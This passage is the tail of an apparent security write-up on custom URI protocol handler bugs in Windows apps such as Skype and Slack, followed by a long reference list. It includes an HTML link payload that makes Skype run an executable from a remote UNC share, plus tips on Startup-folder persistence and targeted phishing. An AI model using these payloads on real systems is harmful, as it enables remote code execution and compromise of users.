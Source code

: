 I injected the HTA into `C:/ProgramData/[app]` and then executed it using the
original vulnerability.

##### Startup in ProgramData
If you are running elevated you can inject into
`C:/ProgramData/Microsoft/Windows/STARTM~1/Programs/Startup/` and it will be
executed at startup for all users.

The big limitation here is running elevated. Writing to that directory needs
local admin.

##### Guessing The Username
If all else fails, just guess.

In most businesses, the person's username and their email is the same and
predictable (e.g., `jsmith` for John Smith).

We can send targeted phishing emails to users with a customized payload in the
protocol handler and have a good success rate.

### Skype Command Injection via browser-subprocess-command
This payload combines two of the techniques we have seen. command-line switch
injection and remote files.

```html
<a hred='skype://?"
  --secondary
  --browser-subprocess-path=\\192.168.0.1\uncshare\sh.exe
'>
```

I cannot find any information about the `secondary` flag in
[flag-descriptions.cc][flag-descriptions-rc] but it is probably needed. Does it
enable Chromium's secondary UI? I don't know.

The [browser-subprocess-command][browser-subprocess-path-switch] specifies an
executable for the Chromium renderer and plugin subprocesses. It's set to a
remote file via a UNC path. Skype would execute it when creating a renderer
subprocess and the attacker would get remote code execution.

[flag-descriptions-rc]: https://chromium.googlesource.com/chromium/src/+/master/chrome/browser/flag_descriptions.cc
[browser-subprocess-path-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#32

During the review, we had this question about the remote file. Will the OS show
a prompt and ask for confirmation before executing a remote executable? I don't
know. If you do, please let me know. I think in this case, the framework does it
automagically and there is no prompt? Honestly, we have to find a copy of the
vulnerable version and try it.

### Slack command-line Injection via browser-subprocess-command
The Slack exploit is similar to the previous bug. There is one difference.
According to the article, an existing instance of Slack would prevent the
exploit. They got around by supplying `user-data-dir`. This runs the instance
run under a new user (e.g., profile) and work.

The exploit URI uses calc but I think we can assume it can execute a remote file
like the Skype version (doubt).


[positive]: https://positive.security/blog/url-open-rce
[eric-app-protocols]: https://textslashplain.com/2019/08/29/web-to-app-communication-app-protocols/
[eric-lawrence-twitter]: https://twitter.com/ericlaw
[procmon-link]: https://docs.microsoft.com/en-us/sysinternals/downloads/procmon
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[positive-jar-trick]: https://positive.security/blog/url-open-rce#windows-10-19042
[cyku-twitter]: https://twitter.com/cyku_tw
[cyku-nord-bug]: https://hackerone.com/reports/1001255
[process-start-string]: https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-5.0#System_Diagnostics_Process_Start_System_String_
[ea-security]: https://ea.com/security
[zer0pwn-twitter]: https://twitter.com/zer0pwn
[fun-with-uri]: https://zero.lol/2019/05/22/fun-with-uri-handlers
[zdi-qt]: https://www.thezdi.com/blog/2019/4/3/loading-up-a-pair-of-qt-bugs-detailing-cve-2019-1636-and-cve-2019-6739
[origin-xss-rce]: https://zero.lol/2019/05/13/xss-to-rce
[lewis-angular-talk]: https://www.slideshare.net/LewisArdern/so-you-thought-you-were-safe-using-angularjs-think-again
[lewis-twitter]: https://twitter.com/LewisArdern
[playstation-now-rce-h1]: https://hackerone.com/reports/873614
[ninth-dr]: https://en.wikipedia.org/wiki/Ninth_Doctor
[b1ack0wl-twitter]: https://twitter.com/b1ack0wl
[mint-yelp-poc]: https://github.com/b1ack0wl/linux_mint_poc
[chromium-785809]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809
[chromium-785809-22]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[chromium-785809-21]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[ifs-docs]: https://bash.cyberciti.biz/guide/$IFS
[jonaslyk-twitter]: https://twitter.com/jonasLyk
[jonaslyj-tweet]: https://twitter.com/jonasLyk/status/1372952003719143428
[subtle-raymond]: https://devblogs.microsoft.com/oldnewthing/20060509-30/?p=31263
[james-twitter]: https://github.com/tyranid
[path-conversion]: https://googleprojectzero.blogspot.com/2016/02/the-definitive-guide-on-win32-to-nt.html
[mirc-uri-rce]: https://proofofcalc.com/cve-2019-6453-mIRC/
[jeff-twitter]: https://twitter.com/jeffssh
[teamviewer-unquoted]: https://jeffs.sh/CVEs/CVE-2020-13699.txt
[rgod-livejournal]: http://retrogod.altervista.org/
[electron-url]: https://www.electronjs.org/
[cef-url]: https://bitbucket.org/chromiumembedded/cef/src
[rgod-electon-zdi]: https://www.thezdi.com/blog/2018/12/18/top-5-day-two-electron-boogaloo-a-case-for-technodiversity
[gpu-launcher-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#414
[disable-gpu-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#118
[no-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#463
[electron-protocol-handler-fix]: https://www.electronjs.org/blog/protocol-handler-fix
[ubi-rce]: https://thewhiteh4t.github.io/2018/11/16/ubisoft-uplay-rce-exploit.html
[exodus-rce]: https://hackernoon.com/exploiting-electron-rce-in-exodus-wallet-d9e6db13c374
[type-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#507
[chromium-histogram-old-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/stabilize-8530.93.B/base/metrics/histogram_base.cc#136
[chromium-histogram-current-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/master/base/metrics/histogram_base.cc
[luke-calc-hta]: https://github.com/arntsonl/calc_security_poc/blob/master/hta/calc.hta
[directories-special-files]: https://docs.microsoft.com/en-us/windows/win32/fileio/naming-a-file#:~:text=Note%20that%20directory%20names%20are%20stored%20by%20the%20file%20system%20as%20a%20special%20type%20of%20file,
[ms-hta-docs]: https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)
[expand-env-var]: https://docs.microsoft.com/en-us/dotnet/api/system.environment.expandenvironmentvariables
[spotify-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-280/
[amazon-music-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-215/
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[understanding-protocols]: https://docs.microsoft.com/en-us/archive/blogs/ieinternals/understanding-protocols
[exploiting-uri]: https://web.archive.org/web/20200525025338/https://www.vdoo.com/blog/exploiting-custom-protocol-handlers-in-windows
[provoking-windows]: https://www.slideshare.net/JeremyBrown37/provoking-windows-dragoncon-2016-253308525
[uri-use-abuse-slides]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Presentation/bh-eu-08-mcfeters-rios-carter.pdf
[uri-use-abuse-wp]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Whitepaper/bh-eu-08-mcfeters-rios-carter-WP.pdf
[codecolorist-twitter]: https://twitter.com/CodeColorist
[shellexecute-codecolorist]: https://blog.chichou.me/2018/01/28/electron-s-bug-shellexecute-to-blame/
[juho-paper]: https://infocondb.org/con/disobey/disobey-2020/appsetasdefaultrceclient-electron-scheme-handlers-and-stealthy-security-patches
[juho-twitter]: https://twitter.com/jupenur